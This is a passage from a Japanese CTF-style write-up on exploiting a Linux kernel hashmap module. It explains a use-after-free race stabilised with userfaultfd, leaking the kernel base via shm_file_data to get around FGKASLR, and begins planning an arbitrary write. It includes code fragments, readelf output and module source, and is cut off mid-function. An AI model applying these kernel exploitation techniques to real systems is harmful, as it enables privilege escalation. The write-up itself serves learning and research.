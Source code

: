 ```bt.sh
#7  __x64_sys_shmat (regs=<optimized out>) at ipc/shm.c:1589
#8  0xffffffff81a3feb3 in do_syscall_64 (nr=<optimized out>, regs=0xffffc90000157f58) at arch/x86/entry/common.c:46
```

*kmalloc-32*で使える構造体であれば、`seq_operations`もあると[書いてある](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628)が、これらのポインタはFGKASLRの影響を受ける。実際、`single_start()`等の関数のためにセクションが設けられていることが分かる。
```readelf.txt
  [11877] .text.single_star PROGBITS         ffffffff81669b30  00869b30
       000000000000000f  0000000000000000  AX       0     0     16
  [11878] .text.single_next PROGBITS         ffffffff81669b40  00869b40
       000000000000000c  0000000000000000  AX       0     0     16
  [11879] .text.single_stop PROGBITS         ffffffff81669b50  00869b50
       0000000000000006  0000000000000000  AX       0     0     16
```
よって、*kernbase*のleakにはこういった関数ポインタではなく、データ領域を指している`shm_file_data`等を使うことが望ましい。

## leak
といわけで、uffdを使ってraceを安定化させつつ`shm_file_data`でkernbaseをリークしていく。
まずは`buckets`が拡張される直前まで`key`を追加していく。最初の`threshold`は*0x10 x 3/4 = 0xc*回であるから、その分だけ`add_key()`。それが終わったらuffdを設定したページからさらに`add_key()`を行い、フォルトの発生中に`delete_value()`して要素を解放したらUAFの完成。以下のようにleakができる。
![](https://i.imgur.com/klr5nr9.png)

## 因みに
uffdハンドラの中で`mmap()`するのって、rootじゃないとダメなんだっけ？以下のコードはrootでやると上手く動いたけど、rootじゃないと`mmap()`で-1が返ってきちゃった。後で調べる。
```fail.c
    void *srcpage = mmap(0, PAGE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
    printf("[+] mmapped @ %p\n", srcpage);
    uffdio_copy.src = (ulong)srcpage;
    uffdio_copy.dst = (ulong)msg.arg.pagefault.address & ~(PAGE - 1);
    uffdio_copy.len = PAGE;
    uffdio_copy.mode = 0;
    uffdio_copy.copy = 0;
    if(ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
      errExit("ioctl-UFFDIO_COPY");
```
【追記 20200215】これ、単純にアドレス0x0に対して`MAP_FIXED`にしてるからだわ。


# AAW
# principle
さて、ここまででkernbaseのleakができている。次はAAWが欲しい。あと50兆円欲しい。
本モジュールには、既に存在している`hash_entry`の値を更新する`update_value`という操作がある。
```update_value.c
static long update_value(uint32_t idx, uint32_t key, uint32_t size, char *src)
{
    hash_entry *temp;
    char *temp_data;

    if (size < 1 || size > MAX_VALUE_SIZE)
    {
        return INVALID;
    }
    if (!hashmap.buckets[idx])
    {
        return NOT_EXISTS;
    }

```